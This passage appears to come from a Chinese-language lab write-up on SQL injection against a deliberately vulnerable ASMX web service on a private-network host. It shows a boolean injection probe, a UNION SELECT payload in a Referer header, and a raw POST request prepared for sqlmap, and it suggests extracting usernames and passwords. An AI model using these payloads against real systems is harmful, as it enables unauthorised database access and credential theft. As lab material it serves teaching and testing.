 再输入aaa’ or 1=2–

![image-20220404144826162](../../images/image-20220404144826162.png)

可以说明此处存在注入，可以进一步使用联合查询来获取用户名密码，或者抓包使用sqlmap进行测试。

按照示例把get请求转换为post

<img src="../../images/image-20220404153508008.png" alt="image-20220404153508008" style="zoom:200%;" />

保存到文件并给参数标注*

```
POST /Vulnerable.asmx/GetUser HTTP/1.1
Host: 192.168.10.70
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.10.70/Vulnerable.asmx?page=op&tab=test&op=GetUser&bnd=VulnerableServiceSoap&ext=testform&username=admin%E2%80%99+union+select+aaa%2Caaa--
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ASP.NET_SessionId=473D11DF9D40456C68995931
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 89

page=op&tab=test&op=GetUser&bnd=VulnerableServiceSoap&ext=testform&username=aaa*
```
